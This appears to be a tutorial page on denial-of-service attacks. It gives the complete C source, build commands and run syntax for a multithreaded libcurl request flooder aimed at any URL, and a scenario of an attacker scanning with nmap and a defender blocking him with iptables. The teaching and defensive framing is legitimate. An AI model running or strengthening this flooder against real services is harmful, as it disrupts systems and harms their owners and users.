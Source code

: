 ```yaml
---
sidebar_position: 5
---
```


# DDOS Attack

Denial of Service (DoS) attack is a malicious attempt to overwhelm a web property with traffic in order to disrupt it's normal operations. A Distributed Denial of Service (DDOS) is the same attack, done by multiple machines at the same time.

Sometimes, DDOS attack can happen accidentally, for example when multiple machines send request to the same API at the same time and the API cannot handle it.

> [More info on DDOS here!](https://www.cloudflare.com/learning/ddos/glossary/denial-of-service/)

This attack can easily be simulated by a simple C script with threads. Each thread correspond to a machine connected to the network the attacker is using.

## Script

First let's establish a simple C program, with the libraries that are gonna be used!

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <pthread.h> // Used for the threads
#include <curl/curl.h> // Used for the HTTP GET request

int main(int argc, char **argv) {
  if (argc != 3) {
    printf("The correct way to use the simulator is: ./ddos url num_of_attackers\n");
    exit(1);
  }
}
```

Next, it's needed to make a thread function to pass data to and write the methodical initializations of the threads to the main function.

To do that, a struct named ``thread_args`` is gonna be declared in the same file.

### Threads

```c
typedef struct thread_args {
  const char *url;
} thread_args;
```

This keeps only one string variable that holds the url that is gonna be attacked. Back in the main function, it's gonna be used like this:

```c
// Arguments to take to the function
thread_args *args = malloc(sizeof(thread_args));
args->url = argv[1];

// Thread initializer
pthread_t *p_thread;
p_thread = (pthread_t *)malloc(sizeof(pthread_t) * length);

// Start of thread
for (int i = 0; i < length; i++) {
  pthread_create(&p_thread[i] ,NULL, ddos, args);
}

// Thread join
for (int i = 0; i < length; i++) {
  pthread_join(p_thread[i],NULL);
}

// Clearing the buffer
free(p_thread);
pthread_exit(NULL);
```

This creates X threads, which X is gonna be given by the user on the program initialization. In the end, it runs the function on each core and when it's done, it just frees the memory and finishes the program.

### DDOS Function

The DDOS function runs like how CURL runs on a unix-based system, it sends a GET request to the URL it gets from the main program and it finishes if it's successful.

```c
void *ddos(void *_args) {
  // Parse arguments from main thread to X thread.
  thread_args *args = (thread_args *) _args;

  // Curl init
  CURL *curl;
  CURLcode res;

  curl = curl_easy_init();
  if (curl) {
    // Set attack
    curl_easy_setopt(curl, CURLOPT_URL, args->url);

    // Perform attack
    res = curl_easy_perform(curl);

    // If attack was successful, it skips this if
    if (res != CURLE_OK) {
      fprintf(stderr, "curl_easy_perform() failed: %s\n", curl_easy_strerror(res));
    }

    // Clean the CURL buffer
    curl_easy_cleanup(curl);
  }

  return NULL;
}
```

> [The original implementation can be found here!](https://curl.se/libcurl/c/https.html)

### Complete code

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <pthread.h>
#include <curl/curl.h>

// A simple struct to send data from the main thread to the X thread
typedef struct thread_args {
  const char *url;
} thread_args;

// Thread function
void *ddos(void *_args) {
  // Parse arguments from main thread to X thread.
  thread_args *args = (thread_args *) _args;

  // Curl init
  CURL *curl;
  CURLcode res;

  curl = curl_easy_init();
  if (curl) {
    // Set attack
    curl_easy_setopt(curl, CURLOPT_URL, args->url);

    // Perform attack
    res = curl_easy_perform(curl);

    // If attack was successful, it skips this if
    if (res != CURLE_OK) {
      fprintf(stderr, "curl_easy_perform() failed: %s\n", curl_easy_strerror(res));
    }

    // Clean the CURL buffer
    curl_easy_cleanup(curl);
  }

  return NULL;
}

int main(int argc, char **argv) {
  if (argc != 3) {
    printf("The correct way to use the simulator is: ./ddos url num_of_attackers\n");
    exit(1);
  }

  unsigned int length = atoi(argv[2]); // Length of thread array

  // Arguments to take to the function
  thread_args *args = malloc(sizeof(thread_args));
  args->url = argv[1];

  // Thread initializer
  pthread_t *p_thread;
  p_thread = (pthread_t *)malloc(sizeof(pthread_t) * length);

  // Start of thread
  for (int i = 0; i < length; i++) {
    pthread_create(&p_thread[i] ,NULL, ddos, args);
  }

  // Thread join
  for (int i = 0; i < length; i++) {
    pthread_join(p_thread[i],NULL);
  }

  // Clearing the buffer
  free(p_thread);
  pthread_exit(NULL);
}
```

## How to compile and run

The command to compile the program is:

```bash
gcc -o ddos ddos.c -lcurl -pthread
```

However, simply typing ``make`` in the program root automatically compiles it if ``gcc`` or ``make`` is in the system.

To simply run it, use ``./ddos url num_of_attackers``, where ``url`` is the URL that is attacked and ``num_of_attackers`` is the number of machines that attack the API.

### Attack simulation

Let's imagine that the attacker uses 30 machines at his disposal and it attacks the middleware API.

The attacker uses ``netstat`` and ``nmap`` to scan the machine and find that the port ``8351`` is used and he runs the script by typing in the terminal: ``./ddos middleware:8351 30``.

The defender notices quickly (either with ``tcpdump`` or ``wireshark``) that something shady happens and decides to quickly cut access to the attacker. Let's assume that the attackers IP is ``100.32.64.12``.

The defender uses ``iptables`` to block the access to the attacker. The full command is:

```bash
iptables -A INPUT -s 100.32.64.12 -j DROP
```

The attacker thinks he was victorious and he tries to attack again. However, this time, instead of attacking, he gets the message ``Hostname is unreachable`` and he is utterly beaten.
